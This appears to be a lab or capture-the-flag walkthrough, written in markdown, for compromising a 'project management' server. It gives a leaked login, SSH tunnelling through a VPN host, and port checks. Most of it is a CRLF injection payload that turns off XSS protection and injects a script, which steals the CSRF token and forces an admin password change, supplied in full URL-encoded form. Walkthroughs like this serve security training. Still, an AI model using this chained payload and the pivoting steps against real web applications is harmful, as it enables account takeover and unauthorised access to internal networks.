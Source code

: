 # Project Management

1. **Resume From [PC2](<../5_PC2/>)**

2. **Hint:**

    ```text
    ۱. 
    faraji:P@ssw0rd!
    ۲. 
    دسترسی ادمین را بدست آورید 
    ```

3. **Ping project management server from PC2:**

```shell
ssh -N -i ./id_ed25519 -p 2200 -L 0.0.0.0:7777:10.233.27.37:22 vpn_user@172.16.3.64
```

In a new terminal:

```shell
ssh -p 7777 -i 05-rsa.rezaee.priv rezaee@127.0.0.1
ping pm
```

Project management server IP: `10.233.58.241`

4. **Check which ports are open on the project management server:**

    1. **Check if port 22 and 2200 are open on project management server for ssh:**

```shell
ssh faraji@10.233.58.241
ssh -p 2200 faraji@10.233.58.241
```

2. **Check if port 80 is open on project management server for http:**

```shell
nc -zv 10.233.58.241 80
```

Output:

```shell
Connection to  port 80 10.233.58.241 succeeded!
```

5. **Create an SSH tunnel to access port 80 on the project management server:**

```shell
ssh -N -i ./id_ed25519 -p 2200 -L 18080:10.233.58.241:80 vpn_user@172.16.3.64
```

6. **Access the project management server through the tunnel:**

```shell
http://localhost:18080
```

7. **CRLF Injection Attack**

```shell
‍‍‍‍```html
X-XSS-Protection:0

23
<script></script>
0
//..

```

```javascript
    var token = document.getElementById('csrf_token').value;

    fetch('/changepassword', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: new URLSearchParams({
            'csrf_token': token,
            'new_password': '12345678',
            'confirm_password': '12345678'
        })
    }).catch(error => console.error('Error:', error));
```

```html
X-XSS-Protection:0

23
<script>var token = document.getElementById('csrf_token').value;

    fetch('/changepassword', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: new URLSearchParams({
            'csrf_token': token,
            'new_password': '12345678',
            'confirm_password': '12345678'
        })
    }).catch(error => console.error('Error:', error));</script>
0
//..
```

 encode this to url

`%58%2d%58%53%53%2d%50%72%6f%74%65%63%74%69%6f%6e%3a%30%0a%0a%32%33%0a%3c%73%63%72%69%70%74%3e%76%61%72%20%74%6f%6b%65%6e%20%3d%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%27%63%73%72%66%5f%74%6f%6b%65%6e%27%29%2e%76%61%6c%75%65%3b%0a%0a%20%20%20%20%66%65%74%63%68%28%27%2f%63%68%61%6e%67%65%70%61%73%73%77%6f%72%64%27%2c%20%7b%0a%20%20%20%20%20%20%20%20%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%0a%20%20%20%20%20%20%20%20%68%65%61%64%65%72%73%3a%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%27%43%6f%6e%74%65%6e%74%2d%54%79%70%65%27%3a%20%27%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%27%0a%20%20%20%20%20%20%20%20%7d%2c%0a%20%20%20%20%20%20%20%20%62%6f%64%79%3a%20%6e%65%77%20%55%52%4c%53%65%61%72%63%68%50%61%72%61%6d%73%28%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%27%63%73%72%66%5f%74%6f%6b%65%6e%27%3a%20%74%6f%6b%65%6e%2c%0a%20%20%20%20%20%20%20%20%20%20%20%20%27%6e%65%77%5f%70%61%73%73%77%6f%72%64%27%3a%20%27%31%32%33%34%35%36%37%38%27%2c%0a%20%20%20%20%20%20%20%20%20%20%20%20%27%63%6f%6e%66%69%72%6d%5f%70%61%73%73%77%6f%72%64%27%3a%20%27%31%32%33%34%35%36%37%38%27%0a%20%20%20%20%20%20%20%20%7d%29%0a%20%20%20%20%7d%29%2e%63%61%74%63%68%28%65%72%72%6f%72%20%3d%3e%20%63%6f%6e%73%6f%6c%65%2e%65%72%72%6f%72%28%27%45%72%72%6f%72%3a%27%2c%20%65%72%72%6f%72%29%29%3b%3c%2f%73%63%72%69%70%74%3e%0a%30%0a%2f%2f%2e%2e`
